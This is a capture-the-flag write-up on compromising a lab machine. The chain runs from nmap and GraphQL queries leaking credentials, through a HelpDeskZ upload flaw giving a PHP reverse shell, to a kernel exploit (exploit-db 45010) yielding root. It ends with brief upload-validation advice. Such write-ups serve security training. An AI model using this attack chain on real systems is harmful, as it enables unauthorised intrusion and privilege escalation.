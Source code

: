 ## Reconnaissance

Check open services/ports using nmap 

```
# Nmap 7.70 scan initiated Mon Mar 11 21:15:24 2019 as: nmap -vvv -p22,80,3000 -Pn --max-retries 2 -T4 -oN help-detailed-tcp -sC -sV 10.10.10.121
Nmap scan report for 10.10.10.121
Host is up, received user-set (0.15s latency).
Scanned at 2019-03-11 21:15:25 IST for 17s
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    syn-ack Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From the open ports, we can see there are two applications running on 80 and 3000 respectively.

On running dirsearch, we can see there is a graphql endpoint on 3000. Fuzzing the endpoints and analyzing the errors, we found that the correct syntax to get the credentials from the query. 

```
GET /graphql?query={user{username}}
Host: http://10.10.10.121:3000

{"data":{"user":{"username":"helpme@helpme.com"}}}

GET /graphql?query={user{password}}
Host: http://10.10.10.121:3000

{"data":{"user":{"password":"5d3c93182bb20f07b994a7f617e99cff"}}}
```

Perfect! Got a username and hashed password. We can use this for spraying later on. 

On to the port 80, we can see there is a helpdesk application running on /support/ folder. Analyzing more about [HelpDeskZ](http://www.helpdeskz.com/), we can find two exploits. 
One is an unauthenticated file upload and authenticated SQL Injection. 

## Exploitation

From exploit-db, we can find the corresponding [exploit](https://www.exploit-db.com/exploits/40300). Reading through the exploit and the [helpdeskz code](https://github.com/evolutionscript/HelpDeskZ-1.0/blob/006662bb856e126a38f2bb76df44a2e4e3d37350/controllers/submit_ticket_controller.php), we can understand two things, 

1) PHP files are allowed to be uploaded by default.
2) Uploaded file names are generated by doing an MD5 on the the file name and uploaded time. 

Now that we have figured out how the exploit works, we can upload a PHP reverse shell manually and run the exploit to generate the file name to query it. 

When I tried to upload the shell using the 'Submit Ticket' functionality, the server was throwing an error saying file type is not allowed. 

<include image>

After this, I was confused because the PHP files are not getting uploaded. Maybe the box creator removed the PHP from allowed extensions. 
From this point, I had tried multiple bypasses to exploit file upload vulnerability. Yet, I was getting the same error. 

Wanted a nudge on the right direction, so I took a break from the box and checked the forum to see if I am missing something. Most of the comments said to read the upload code carefully. 
Again I started from scratch on how the application handles file uploads. After spending sometime, figured out the file is being uploaded to the machine before the extenstion check is happening!

```
if(!isset($error_msg) && $settings['ticket_attachment']==1){
					$uploaddir = UPLOAD_DIR.'tickets/';		
					if($_FILES['attachment']['error'] == 0){
						$ext = pathinfo($_FILES['attachment']['name'], PATHINFO_EXTENSION);
						$filename = md5($_FILES['attachment']['name'].time()).".".$ext;
						$fileuploaded[] = array('name' => $_FILES['attachment']['name'], 'enc' => $filename, 'size' => formatBytes($_FILES['attachment']['size']), 'filetype' => $_FILES['attachment']['type']);
						$uploadedfile = $uploaddir.$filename;
						if (!move_uploaded_file($_FILES['attachment']['tmp_name'], $uploadedfile)) {
							$show_step2 = true;
							$error_msg = $LANG['ERROR_UPLOADING_A_FILE'];
						}else{
							$fileverification = verifyAttachment($_FILES['attachment']);
							switch($fileverification['msg_code']){
								case '1':
								$show_step2 = true;
								$error_msg = $LANG['INVALID_FILE_EXTENSION'];
								break;
								case '2':
								$show_step2 = true;
								$error_msg = $LANG['FILE_NOT_ALLOWED'];
								break;
```

From above code, we can see that switch case to handle upload errors is being done after the upload.

So whatever shell we have been uploading is in the server, we just need to figure out the file name using the exploit. 

On logging into the application to see the functionalities, there is an option to change the time zone. Since the exploit works based on time, it is better that both the victim and attacker machine should be synced to the same time zone. 
I changed the zone to GMT +530, figured out the UPLOAD_DIR from the code and tried running the exploit

```
(py2) [help] python2.7 40300.py http://10.10.10.121/support/uploads/tickets/ php-reverse-shell.php
Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
found!
http://10.10.10.121/support/uploads/tickets/648c7992e32db31087ed54a48e9543b6.php
```

Exploit worked like charm and we got a shell as user `help`

<add image> 

## Privilege Escalation

Our goal next is to escalate the privieleges to root. I found an updated version of [linux-exploit-suggester](https://github.com/jondonas/linux-exploit-suggester-2). 
Transferred the file to /tmp of the victim machine and ran the script to see if there are any known exploits. 

```
help@help:/tmp$ perl linux-exploit-suggester-2.pl
perl linux-exploit-suggester-2.pl

  #############################
    Linux Exploit Suggester 2
  #############################

  Local Kernel: 4.4.0
  Searching among 73 exploits...

  Possible Exploits:
[+] af_packet
     CVE-2016-8655
     Source: https://www.exploit-db.com/exploits/40871/
[+] dirty_cow
     CVE-2016-5195
     Source: https://www.exploit-db.com/exploits/40616/
[+] exploit_x
     CVE-2018-14665
     Source: https://www.exploit-db.com/exploits/45697
[+] get_rekt
     CVE-2017-16695
     Source: https://www.exploit-db.com/exploits/45010
```

Luckily, there are a couple of exploits already available. After unsuccessful attempts at running dirtycow, tried get_rekt exploit and it worked. 

```
help@help:/tmp$ gcc 45010.c -o pwnnn
gcc 45010.c -o pwnnn
help@help:/tmp$ ./pwnnn
./pwnnn
[.]
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.]
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.]
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff88000af66000
[*] Leaking sock struct from ffff880011d95800
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff880020155e00
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff880020155e00
[*] credentials patched, launching shell...
# whoami
whoami
root
```

## Defense 

[1] Files should be validated before it getting uploaded to the server.
[2] File names should be completely randomized. 

